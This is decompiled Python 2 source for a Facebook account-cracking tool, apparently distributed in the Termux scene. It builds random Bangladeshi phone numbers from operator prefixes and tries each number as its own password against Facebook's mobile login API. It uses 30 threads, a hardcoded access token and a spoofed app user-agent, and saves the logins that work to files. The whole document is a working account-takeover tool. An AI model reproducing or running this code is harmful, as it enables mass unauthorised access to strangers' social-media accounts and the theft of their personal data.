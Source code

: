 # Fuck
import os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass os.system('rm -rf .txt')  def psb(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(0.03)   os.system('clear') psb('\x1b[1;32mBANGLADESH ARIF 11 DIGIT CLONING START PLEASE WAIT ..........') for n in range(9999):     nmbr = random.randint(1111111, 9999999)     sys.stdout = open('.txt', 'a')     print nmbr     sys.stdout.flush()  try:     import requests except ImportError:     os.system('pip2 install requests')  try:     import mechanize except ImportError:     os.system('pip2 install mechanize')     time.sleep(1)     os.system('python2 C')  from multiprocessing.pool import ThreadPool from requests.exceptions import ConnectionError from mechanize import Browser os.system('clear') reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1) br.addheaders = [  ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]  def exb():     print     os.sys.exit()   def psb(z):     for e in z + '\n':         sys.stdout.write(e)         sys.stdout.flush()         time.sleep(0.03)   def t():     time.sleep(1)   def cb():     os.system('clear')   logo = '\n|.########....###....##.......##.....##....###...\n|....##......##.##...##.......##.....##...##.##..\n|....##.....##...##..##.......##.....##..##...##.\n|....##....##.....##.##.......#########.##.....##\n|....##....#########.##.......##.....##.#########'  back = 0 successful = [] cpb = [] oks = [] id = []  def menu():     os.system('clear')     print logo     print ''     print 'AUTHOR   : PRINCE ARIF'     print 'FACEBOOK : TERMUX PRINCE ARIF'     print 'GITHUB     : github.com/PRINCE ARIF'     print ''     print 50* '-'     print '[1]  \x1b[1;96mGP'     print '[2]  \x1b[1;92mRobi'     print '[3]  \x1b[1;96mAirtel'     print '[4]  \x1b[1;92mBanglalink'     print '[5]  \x1b[1;93mTeletalk'     print '[0]  \x1b[1;95mExit            '     print 50 * '-'     action()   def action():     global cpb     global oks     bch = raw_input('\n  ===>   ')     if bch == '':         print         action()     elif bch == '1':         os.system('clear')         print logo         print 50* '-'         print ''         print '170,171, 172, 173, 174, 175, 176, 177, 178, 179,130,131, 132, 133, 134, 135, 136, 137, 138, 139'         print ''         try:             c = raw_input(' Choose Code  : ')             k = '+880'             idlist = '.txt'             for line in open(idlist, 'r').readlines():                 id.append(line.strip())          except IOError:             print '[!] File Not Found'             raw_input('\n[ Back ]')             menu()      elif bch == '2':         os.system('clear')         print logo         print 50* '-'         print ''         print '180,181, 182, 183, 184, 185, 186, 187, 188, 189'         print ''         try:             c = raw_input(' Choose Code  : ')             k = '+880'             idlist = '.txt'             for line in open(idlist, 'r').readlines():                 id.append(line.strip())          except IOError:             print '[!] File Not Found'             raw_input('\n[ Back ]')             menu()      elif bch == '3':         os.system('clear')         print logo         print 50* '-'         print ''         print '160,161, 162, 163, 164, 165, 166, 167, 168, 169'         print ''         try:             c = raw_input(' Choose Code  : ')             k = '+880'             idlist = '.txt'             for line in open(idlist, 'r').readlines():                 id.append(line.strip())          except IOError:             print '[!] File Not Found'             raw_input('\n[ Back ]')             menu()      elif bch == '4':         os.system('clear')         print logo         print 50* '-'         print ''         print '190,191, 192, 193, 194, 195, 196, 197, 198, 199,140,141, 142, 143, 144, 145, 146, 147, 148, 149'         print ''         try:             c = raw_input(' Choose Code  : ')             k = '+880'             idlist = '.txt'             for line in open(idlist, 'r').readlines():                 id.append(line.strip())          except IOError:             print '[!] File Not Found'             raw_input('\n[ Back ]')             menu()      elif bch == '5':         os.system('clear')         print logo         print 50* '-'         print ''         print '150,151, 152, 153, 154, 155, 156, 157, 158, 159'         print ''         try:             c = raw_input(' Choose Code  : ')             k = '+880'             idlist = '.txt'             for line in open(idlist, 'r').readlines():                 id.append(line.strip())          except IOError:             print '[!] File Not Found'             raw_input('\n[ Back ]')             menu()      elif bch == '0':         exb()     else:         print         action()     xxx = str(len(id))     print ''     print 50 * '-'     psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)     time.sleep(0.5)     psb('[\xe2\x9c\x93] Please wait, process is running ...')     time.sleep(0.5)     psb('[!] To Stop Process Press CTRL Then Press z')     time.sleep(0.5)     psb(50 * '-')     time.sleep(0.5)     print     50 * '-'     print      def main(arg):         user = arg         try:             os.mkdir('save')         except OSError:             pass          try:             result = k + c + user             digi11 = result[3:14]             pass1 = digi11             data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=1&amp;email=' + k + c + user + '&amp;locale=en_US&amp;password=' + pass1 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f98fb61fcd7aa0c44f58f522efm')             q = json.load(data)             if 'access_token' in q:                 print '\x1b[1;92m[Arif-OKY]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\n' + '\n'                 okb = open('save/successfull.txt', 'a')                 okb.write(k + c + user + '|' + pass1 + '\n')                 okb.close()                 oks.append(c + user + pass1)             elif 'www.facebook.com' in q['error_msg']:                 print '\x1b[1;93m[Arif-CP]\x1b[1;97m ' + k + c + user + ' | ' + pass1 + '\x1b[1;93m[Open After 03 Days]\x1b[0m \n'                 cps = open('save/checkpoint.txt', 'a')                 cps.write(k + c + user + '|' + pass1 + '\n')                 cps.close()                 cpb.append(c + user + pass1)         except:             pass      p = ThreadPool(30)     p.map(main, id)     print     50 * '-'     print     print     '[\xe2\x9c\x93] Total OK/CP : ' + str(len(oks)) + '/' + str(len(cpb))     print '[\xe2\x9c\x93] CP File Has Been Saved : save/checkpoint.txt'     raw_input('\n[Press Enter To Go Back]')     os.system('python2 Bangla.py')   if __name__ == '__main__':     menu() # okay decompiling UF11.pyc

